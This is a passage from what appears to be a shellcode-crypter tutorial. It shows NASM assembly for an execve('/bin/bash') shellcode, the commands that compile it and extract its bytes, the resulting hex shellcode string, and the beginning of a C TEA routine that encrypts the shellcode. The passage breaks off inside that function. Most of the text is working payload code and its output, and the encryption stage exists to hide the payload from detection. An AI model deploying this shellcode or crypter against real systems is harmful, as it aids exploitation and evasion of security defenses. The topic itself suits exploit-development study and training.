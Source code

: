 ```nasm
	lea ebx, [esi]				;Initiliaze ebx to "/bin/bash"
	lea ecx, [esi + 10]			;Initialize ecx to ["/bin/bash", NULL]
	lea edx, [esi + 14]			;Initialize edx to NULL
	mov al, 11				;Move execve systemcall number inside eax

	;Systemcall details:
    	; --> execve("/bin/bash%00", ["/bin/bash%00", NULL], NULL)
	int 0x80				;Execute systemcall


stage_1:
	;Second part: CALL
	call stage_2				;Use the CALL instruction to jump to stage_2
	shell: db "/bin/bash"			;The instruction to execute using execve
```

Let's compile it and get its hexadecimal representation:
```console
kali@kali:/tmp/$ nasm -f elf32 -o execve.o execve.nasm
kali@kali:/tmp/$ ld -m elf_i386 -z execstack -o execve execve.o
kali@kali:/tmp/$ objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'| grep -v 'format' | cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68"
```


## 4) The encryption routine:
Below is the C code used to encrypt the previous shellcode using TEA encoding schema. 

No need to give more details on the code the commentaries are self explanatory:
```c
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>



/* This function is used to encrypt a message. The message is divided in 64 bits blocks and then encrypt with the 128 bits key.
:param uint32_t v[2] -> the message to encrypt:
:param uint32_t k[4] -> the key used to encrypt:
*/
void encrypt (uint32_t v[2], uint32_t k[4]) 
{

    uint32_t v0=v[0], v1=v[1], sum=0, i;           // set up //

    uint32_t delta=0x9E3779B9;                     // a key schedule constant //

    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   // cache key //


    for (i=0; i < 32; i++) {                       // basic cycle start //
        sum += delta;
        v0 += ((v1<<4) + k0) ^ (v1 + sum) ^ ((v1>>5) + k1);
        v1 += ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);
    }                                              // end cycle //
                                              
    v[0]=v0; 
    v[1]=v1;                                       
```